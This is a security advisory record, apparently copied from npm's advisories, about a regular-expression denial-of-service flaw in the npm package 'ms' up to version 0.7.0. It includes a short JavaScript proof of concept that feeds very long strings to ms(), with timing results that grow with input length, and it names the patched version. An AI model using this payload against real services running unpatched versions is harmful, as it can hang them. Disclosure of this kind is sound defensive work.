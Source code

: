 ```yaml
---
Publication-State: Active
Access: Public
Reviewers:
- Name: Adam Baldwin
  Associated-With-Project: false
  Compensation-Source: external
Domain: Security
Methodology:
- Code-Review
Issues-Identified: Not-Examined
Package-URLs:
- pkg:npm/ms
Review-Date: '2015-10-24'
Scope: Implementation/Full
Schema-Version: '1.0'
SPDX-License-Identifier: CC-BY-4.0
---
```

### Summary
*Regular Expression Denial of Service*<br><br>Update to version 0.7.1 or greater. An alternative would be to limit the input length of the user input before passing it into ms.
### Details
ms is vulnerable to regular expression denial of service (ReDoS) when extremely long version strings are parsed.  "The Regular expression Denial of Service (ReDoS) is a Denial of Service attack, that exploits the fact that most Regular Expression implementations may reach extreme situations that cause them to work very slowly (exponentially related to input size). An attacker can then cause a program using a Regular Expression to enter these extreme situations and then hang for a very long time."[1]  ### Proof of Concept ``` var ms = require('ms'); var genstr = function (len, chr) {    var result = "";    for (i=0; i<=len; i++) {        result = result + chr;    }     return result; }  ms(genstr(process.argv[2], "5") + " minutea");  ```  ### Results Showing increase in execution time based on the input string. ``` $ time node ms.js 10000  real	0m0.758s user	0m0.724s sys	0m0.031s  $ time node ms.js 20000  real	0m2.580s user	0m2.494s sys	0m0.047s  $ time node ms.js 30000  real	0m5.747s user	0m5.483s sys	0m0.080s  $ time node ms.js 80000  real	0m41.022s user	0m38.894s sys	0m0.529s ``` 
<br><br>• Affected Versions: <=0.7.0
<br>• Patched Versions: >0.7.0
### Methodology
This review was taken directly from the Security Advisories section of npm's official website.
### External References
['https://www.owasp.org/index.php/Regular_expression_Denial_of_Service_-_ReDoS']
### Disclaimer
All security reviews are conducted on a "best-effort" basis against a software component at a point in time. We make no guarantee as to the quality or completeness of any review. If you believe any content is inaccurate, we encourage you to open an issue or submit a pull request with a correction or improvement.
### License
This text is released under at least the [Creative Commons Attribution 4.0 (CC-BY-4.0) license](https://creativecommons.org/licenses/by/4.0/legalcode.txt). Externally-referenced content may be licensed differently.
